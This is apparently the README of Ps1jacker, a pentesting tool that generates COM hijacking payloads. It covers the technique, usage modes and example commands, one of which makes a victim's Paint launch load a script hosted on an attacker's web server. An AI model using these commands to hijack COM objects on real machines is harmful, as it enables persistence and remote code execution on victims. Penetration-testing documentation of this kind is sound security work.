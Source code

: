 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.

![Ps1jacker screenshot](https://preview.ibb.co/f7vg6U/ps1jacker.png)

**WARNING: This tool is still in development - please report bugs!**

######  WHAT IS COM HIJACKING?
COM Hijacking is a method for an attacker to gain remote code execution or persistence on victims machine, by using legitimate Windows process'. 
The advantage of Ps1jacker is that it uses a method which allows the user to specify his/her script path on Web Server, which means there is no local
storage on victims machine involved in this process. 

######  DEFAULT METHOD [-hd]
The Default method will generate the payload for you without any of your user input. However, there are 2 precautions:
1. It will only work if you grab the file calc.SCT from examples directory and copy it to your victims machine exactly at `C:\\tools\\COM Testing\\`,
as the payload will be generated in a way, where it will expect the .SCT script to be located in that path.
2. This works only with using `MSPAINT.exe` (Paint). Meaning, victim has to open PAINT.exe in order for the payload to trigger.

Once you have done that, you can execute the powershell script on victims machine and it should generate all the registry entries for you.

######  CUSTOM METHOD [-p][-ch][-cf]
With the custom method you may specify your own .SCT script and decide whether:
1. Host it on your webserver: in this case you have to specify the path to the file on your server, eg. `http://<your_webserver_ip>/<your_sct_script>`
2. Host it on your victim's machine: in this case you specify the path where your .SCT script is residing on your victim's machine.
You also have to specify your own CLSID which you will hijack.
Same goes for the unique Fake CLSID. And remember, it has to be really unique, otherwise you will trigger an existing process in Windows instead of your
script.

######  DISCLAIMER: 
Please do not use this tool for illegal activities. This tools should be used by pentesters to ease the generation of payload for COM Hijacking technique.


######  TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

######  TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


